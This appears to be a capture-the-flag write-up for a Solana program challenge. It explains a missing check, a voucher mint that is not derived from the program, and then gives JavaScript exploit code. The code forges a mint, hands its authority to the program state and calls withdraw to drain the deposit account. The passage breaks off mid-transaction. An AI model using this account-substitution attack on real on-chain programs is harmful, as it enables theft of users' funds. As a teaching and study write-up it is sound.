 ## What I understood:

- state: holds the state of the program owned by PDA.
- depositor[Signer]: to approve the transfer and burn.

- voucher_mint, deposit_account : should be owned by the state [user abstraction]

- depositor_Acccount and deposit_account should be of same kind of tokens(of the same mint).
- depositor_voucher_mint should be of a token type minted by voucher_mint.

At the first glance everything looked secure, after illustrating the account constraints I found that the relation b/w voucher_mint account and the state is that voucher_mint's authority is the state and the voucher_mint accounts address is not stored anywhere.

Since the voucher_mint account is not derived from the program, so I thought we could create a arbitary mint and mint some tokens since we created the mint, and finally transfer the ownership to the state. And pass that mint account as a voucher_mint account, since the mint account is owned by the state the constraints on the account are satisified.

## Exploit:
- Create a new arbitrary mint account
- Mint tokens to a new token account owned by the player.
- Transfer the ownership of the mint authority to the state.
- Call the withdraw function with the arbitrary mint account and a depositor_account which is controlled by the player.

```js
// all player code goes here
async function attack() {
    console.log(accounts);
    let amount = await conn.getTokenAccountBalance(accounts.depositAccount).then(_ => new BN(_.value.amount));
    console.log("Amount : "+ amount);

    // creating mint account
    const mint = await spl_token.createMint(conn, player, player.publicKey, null, 0);
    console.log('Created new Mint : ' + mint);

    // creating a fake_depositor_account and minting tokens
    const fake_depositor_account = await spl_token.createAssociatedTokenAccount(conn, player, mint, player.publicKey);
    await spl_token.mintToChecked(conn, player, mint, fake_depositor_account, player, amount, 0);
    console.log(`Minted ${amount} to a new voucher_depositor_account: ${fake_depositor_account}`);

    // transfer the ownership of the mint to state
    await spl_token.setAuthority(conn, player, mint, player, AuthorityType.MintTokens, accounts.state);
    console.log("Transfered the authority to the state");

    // getting the accociated token account of player of bitcoin mint
    let player_bitcoin_token_account = await conn.getParsedTokenAccountsByOwner(player.publicKey, {
            mint: accounts.bitcoinMint,
        }).then(resp => new web3.PublicKey(resp.value[0].pubkey.toString()));
    console.log("Player bitcoin token address: ",player_bitcoin_token_account);
    

    // creating a new transaction
    const txn = new web3.Transaction().add(
        await program.instruction.withdraw(amount, {
        accounts: {
            player: player.publicKey,
            depositor: player.publicKey,
            state: accounts.state,
            depositAccount: accounts.depositAccount,
            voucherMint: mint,
```
